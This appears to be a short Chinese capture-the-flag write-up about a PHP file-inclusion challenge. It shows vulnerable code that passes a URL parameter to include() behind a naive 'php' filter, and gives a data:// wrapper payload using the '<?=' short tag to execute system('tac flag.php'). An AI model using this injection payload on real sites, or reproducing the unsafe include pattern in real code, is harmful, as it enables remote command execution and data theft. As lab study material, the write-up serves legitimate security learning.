

# Web-文件包含漏洞

## 题目

首先网页内出现了以下代码，主要是告诉你flag在flag.php文件内，要求你读取flag.php文件内容。

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}
```
主要关注以上代码
+ `$_GET['file']`：获取通过URL传递的file参数的值
+ `str_replace("php", "???", $file)`：在变量$file中查找所有子字符串"php"，并将其替换为"???"。主要就是把php给过滤了，可以考虑使用data

## 题解
~~通过对`Web-文件包含漏洞.md`的学习(什么狗屁)~~ 通过自学，既然题目禁用了php，那么通过阅读php文档可知，PHP中`<?php echo`可以简写为`<?=`，因此可以在URL后面加上如下payload来获取flag.php的内容
```
/?file=data://text/plain,<?=system("tac flag.php");?>
```